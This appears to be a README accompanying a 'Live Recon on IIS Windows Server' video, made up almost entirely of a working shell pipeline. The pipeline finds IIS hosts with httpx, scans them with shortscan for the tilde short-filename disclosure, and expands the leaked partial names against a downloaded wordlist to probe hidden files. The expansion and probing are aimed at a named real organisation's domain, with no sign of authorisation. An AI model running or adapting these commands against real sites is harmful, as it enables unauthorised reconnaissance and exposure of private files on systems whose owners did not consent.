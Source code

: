 # Day15 - Live Recon on IIS Windows Server - Part-3:
[![Day15 - Live Recon on IIS Windows Server - Part-3:](https://img.youtube.com/vi/jGF6guVYCHk/maxresdefault.jpg)](https://youtu.be/jGF6guVYCHk)

## Timestamps
- [`00:00:00 — Start`](https://youtu.be/jGF6guVYCHk?t=0)
- [`00:04:40 — Automatically Guess IIS Short filename`](https://youtu.be/jGF6guVYCHk?t=280)


## Resources
```yaml
wget -q https://wordlists.solotest.xyz/iis-shortnameguesser.txt.gz && gunzip iis-shortnameguesser.txt.gz


cat subs.txt | httpx -duc -silent -nc -title -td | grep -aE "IIS|IIS Windows Server|Microsoft-IIS|Windows Server" | awk '{print $1}' | unew subs.httpx


mkdir -p shortscan-output && cat subs.httpx | interlace --silent -threads 10 -c "shortscan _target_ -F -s -p 1 -o json > _output_/_cleantarget_.json" -o shortscan-output


for f in *.json;do jq 'select(.vulnerable == true)' &>/dev/null "$f" && echo $f;done





for f in shortscan-output/*.json;do jq 'select(.vulnerable == true)' &>/dev/null "$f" && echo $f;done




# after
cat islamabadgroup.com.pk.json | jq -r 'select(.vulnerable == true) | .url' | head -n1

cat islamabadgroup.com.pk.json | jq -r '.partname | select(. != null) | select(test("^[0-9]+_[0-9]+_[0-9]+\\?$")|not)' | egrep -v "ASPNET?|SYSTEM?" | unew | sed -e 's/\?\./.*\\./g' -e 's/\?//g' | xargs -I{} grep -aiE "^{}" iis-shortnameguesser.txt | sed 's|^|https://islamabadgroup.com.pk/|' | httpx -duc -silent -fc 404 -sc -title -td -cl -ct -t 50



for f in shortscan-output/*.json;do
	jq 'select(.vulnerable == true)' &>/dev/null "$f" && original_url=$(cat $f | jq -r 'select(.vulnerable == true) | .url' | head -n1)
	cat shortscan-output/$original_url | jq -r '.partname | select(. != null) | select(test("^[0-9]+_[0-9]+_[0-9]+\\?$")|not)' | egrep -v "ASPNET?|SYSTEM?" | unew | sed -e 's/\?\./.*\\./g' -e 's/\?//g' | xargs -I{} grep -aiE "^{}" iis-shortnameguesser.txt
done
```
